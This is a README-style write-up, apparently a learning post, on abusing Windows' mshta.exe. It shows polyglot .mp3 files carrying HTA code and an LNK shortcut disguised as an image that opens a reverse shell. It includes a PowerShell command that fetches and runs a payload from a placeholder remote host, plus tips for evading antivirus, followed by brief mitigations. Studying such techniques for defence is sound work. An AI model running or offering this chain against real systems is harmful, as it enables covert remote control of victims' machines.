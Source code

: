 # mshta-abuse
## Introduction

While diving into malware analysis, I came across a technique where attackers use **HTA files** to gain unauthorized access to a victim’s device. What makes this interesting is the abuse of a built-in Windows utility called `mshta.exe`.

This post explores how `mshta` can be leveraged to execute malicious code—**without needing to download a file**—and how simple it is to pull off a reverse shell using this method. Also a walk through a proof-of-concept (PoC) attack using a disguised `.mp3` file and a `.lnk` shortcut file.


## What is `mshta.exe`?

`mshta.exe` is a **legitimate Windows binary** located at:

```
C:\Windows\System32\mshta.exe
```

Its job is to execute **HTA (HTML Application)** files. These files look like regular HTML files but with a `.hta` extension. However, unlike normal web pages, HTA files can also run polygot files that contains hta code. It basically executes only the hta code skipping the other containts of the polygot file and giving attackers an easy way to run commands on a victim’s machine.


## Why Is `mshta.exe` Abused?

- **It’s a signed Microsoft binary**, so it's trusted by the system (living off the land).
- It can **execute scripts from remote URLs**, making it perfect for fileless attacks.
- **Antivirus (AV) software may not flag it**, especially if the payload is well-hidden or obfuscated.
- It supports **polyglot files**—files that are valid in more than one format (e.g., a file that is both a `.mp3` and a `.hta`).


## What Are Polyglot Files?

A **polyglot file** is a file crafted in such a way that it can be interpreted correctly as **two or more different file types**. For example, you can create a `.mp3` file that is also a valid `.hta` file.

This means we can hide a malicious HTA script inside a file that appears harmless—like a music file or image.


## Running Malicious Code Without Downloading It


Let’s say we host a polyglot `.mp3` file containing a hidden HTA script on a server.

From **PowerShell**, you can execute the remote payload like this:

```powershell
& 'C:\Windows\System32\mshta.exe' http://[ip_address]:[port]/malicious.mp3
```

> This executes the malicious payload directly from the server, without saving it locally!
>
**Python Server:**

![python_server](https://github.com/user-attachments/assets/dc194265-90fe-4e0d-b9a1-17de5e427210)

**Command Execution:**

![ps_exec](https://github.com/user-attachments/assets/e58292cd-fa80-4db0-b867-e4d7482a34db)

**Reverse Shell Connection:**

![rev_shell](https://github.com/user-attachments/assets/ab0c5828-8e1f-4050-abb9-ae130605ce0d)

### Why It Works:

- `mshta.exe` parses the file and executes the script section inside it.
- The file is never saved on the disk, making it **harder to detect**.
- Since `.mp3` is a "safe" extension, most users won't suspect anything.


## What About Antivirus?

Most antivirus software detects `mshta.exe` when it:

- Connects to the internet,
- Downloads or executes code remotely.

But we can bypass it by:

- **Obfuscating the HTA code** (e.g., encoding or encrypting it),
- Using a **local LNK (shortcut) file** to run the payload,
- **Hiding the malicious polyglot file locally**, not remotely.


## Disguised LNK

### Here's how the attack chain works:

![lamma_poc](https://github.com/user-attachments/assets/e068b954-24ac-473f-9dda-46e40a52caca)

1. **Two files are planted on the victim’s machine**:
    - A disguised `.lnk` file (looks like a `.png` image),
    - A hidden `.mp3` file containing obfuscated malicious HTA code.
2. The `.lnk` file is crafted to run this command:
    
    ```powershell
    & 'C:\Windows\System32\mshta.exe' /path/to/malicious.mp3
    ```
![payload_prop](https://github.com/user-attachments/assets/13fb6b4d-d917-4b60-9cac-97fa947dad5e)

3. When the victim **clicks on the "image"**, the `.lnk` triggers the local polyglot `.mp3` file.
4. The payload is executed, and a **reverse shell** is opened to the attacker's listener.

> The victim just opened a picture—and now the attacker has control!
> 

## Results

https://github.com/user-attachments/assets/95e61e35-15e0-4e1c-9b20-418f3d1abc75



This technique is a great example of how **Living Off the Land Binaries (LOLBins)** like `mshta.exe` can be misused to execute code in stealthy ways. With the added advantage of polyglot files and simple obfuscation, even basic Windows features become dangerous tools.


## Mitigation Tips

- Block or monitor usage of `mshta.exe` using **Application Control** tools like AppLocker or WDAC.
- Do not trust shortcut files, even if they look like images or any other harmless files.


---
> This post reflects what I’ve learned so far. If I’ve missed anything or made a mistake, feel free to reach out—I’m always eager to improve and learn more.
